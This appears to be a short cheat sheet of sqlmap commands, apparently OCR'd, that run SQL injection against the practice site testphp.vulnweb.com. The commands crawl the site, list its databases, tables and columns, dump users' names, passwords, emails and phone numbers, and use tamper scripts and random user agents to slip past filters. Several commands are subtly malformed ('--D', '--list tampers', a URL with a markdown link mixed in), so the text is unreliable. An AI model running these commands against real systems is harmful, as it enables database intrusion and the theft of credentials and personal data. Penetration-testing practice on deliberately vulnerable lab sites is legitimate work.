 sqlmap -u http://www.vulnweb.com/ --crawl=3 --batch

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --dbs --batch 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --D dbname --tables --batch 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --D dbname -T users --columns --batch 

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --D dbname -T users -C name,pass,email,phone --dump --batch 

sqlmap -u http://www.vulnweb.com/ --crawl=3 --random-agent --ignore-redirects --batch

sqlmap -u [http://www.vulnweb.com/](http://testphp.vulnweb.com/artists.php?artist=1) --dbs --level=3 --threads=4 --batch

sqlmap --list tampers

sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 --D dbname --tables --level=3 --random-agent --tamper=space2plus,randomcase --batch 
